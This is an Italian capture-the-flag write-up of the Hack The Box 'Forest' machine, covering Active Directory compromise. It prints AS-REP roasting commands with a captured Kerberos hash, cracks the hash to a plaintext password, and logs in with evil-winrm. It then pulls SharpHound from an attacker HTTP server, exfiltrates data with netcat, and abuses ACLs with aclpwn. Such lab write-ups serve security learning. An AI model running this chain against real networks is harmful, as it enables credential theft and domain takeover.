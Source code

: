 ## KRoasting

```
./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ec4d096609a114fdd785e8801296118b$d4d812103974b1956e271eba42443d7c7a730d8b8d51a3c9f95e2c689f7cf8d14d2852e56bc450307450b6dc0a81bfd3b7aa12daf6e8272d4075326873068f5c5fedca2fb306364a47ce9419ca852b76d47acb4712d5adaa236bab4e868f306f5cbd35fc78af74708623c68374aefc3ba120217173f91f9eb352fff0ebec23d99a6d479a061eddd60a326e9e3ea68dac62f62314944ef34ee61f31cbf49c02fc1268312aee4e65baa231bdf33d353e7c6f221ce8e7e89a53158f5a8b2672a717231ee3f5040f2bd58dfba3b92132f9d5c331c921978b8b6375673b40ba2456737e8c7e16ed5c
```


--OPPURE--


```
python GetNPUsers.py htb.local/ -no-pass -usersfile ../../forest_user.txt -dc-ip 10.10.10.161
```

Il contenuto di forest_user.txt è dato da enum4linux. Tra cui c'è svc-alfresco che è l'unico per cui si riesce ad estrarre l'hash.


## PassTheHash (?)

Benissimo, ottenuto l'hash finalmente posso mettere in pratica una tecnica che ho sempre voluto provare: la PTH:

```
evil-winrm -u svc-alfresco -H "6a2929599dd19458e2c15587a7c870e5$d7a17216a7094b7ddece4533f3255c63b0906bfde35e2bdb75c40bff8f791a2a0d80d905e8d306a5d1e1060a9cb7c44f652caf14c7e74138259ddda20a9a1040a236d708f183cae602c195261bf614a381d822b11ecf3870becd7a1b4f7c9db4339023bf7aa7d5e7ddf00836385f075f52a814e63df0826a4b6937d3789bafa0c2c9735bbd9378b50125db20fad4a884b4e7f298cb5a8e244fa31b4c379a9131f4977ff4bd5a270e3d6e52e3ae32bdd550312cdba3ea40891033b330791bc3415a709fcd592165b3e4a6b0150a58f1ffe962a9a2783d4b973c99c118cae4535030169f2c8f63" -i 10.10.10.161
```

Come non detto, quella tecnica non funziona.

Rompo l'hash banalmente con John:

```
john --wordlist=rockyou.txt hash.txt
```

Ed entro con la password:

```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

A questo punto presa la tanta faticata user flag comincio con la fase di PrivEsc. Dato il nome della challenge capisco che devo interagire con l'Active Directory. Uso per tal motivo BloodHound.

## PrivEsc

Prima cosa che faccio è scaricare dentro \tmp l'exe necessario: SharpHound. Provo con un wget e curl ma non funzionano. Banalmente lo carico in una cartella 'pubblica' (python simplehttpserver) e lo scarico all'interno della macchina con:
```
Invoke-WebRequest http://IP:8000/SharpHound.exe -o SharpHound.exe
```
Lo eseguo con 
```
.\SharpHound.exe -c all
```
Lascio che prelevi tutto e che generi i vari due file (.zip e .bin). A questo punto sorge un problema! Come passare dalla macchina Win a Linux i due file? 


Con la stessa tecnica di prima carico dentro la macchina NetCat, quindi passo verso Kali i due file:
```
.\nc.exe -w 3 IP 9191 | 20200317113311_BloodHound.zip
```

A quanto pare il file .zip trasferito con NetCat risulta essere corrotto. Cercando un altro metodo per trasferire il file ho scoperto che Evil-WinRM contiene già due metodi "DOWNLOAD" e "UPLOAD". Ho usato questi per spostare l'archivio zip generato. A questo punto ho trascinato il file zip su BloodHound (assicurati che il DB sia in running con "sudo neo4j console" altrimenti non funzionerà), ho messo come nodo foglia 
```
SVC-ALFRESCO@HTB.LOCAL
```
e come nodo radice 
```
DOMAIN ADINS@HTB.LOCAL
```

Osservo l'albero dell'ActiveDirectory e scopro che l'utente ha di base due permessi ereditati (per errore?): 
* GenericAll
* WriteDACL

Sfrutto aclpwn per exploitare da remoto la vulnerabilità presente nelle AD
```
aclpwn -f svc-alfresco@htb.local -ft User -t htb.local -d htb.local -du neo4j -dp PWD -s 10.10.10.161 -u svc-alfresco -sp s3rvice
```
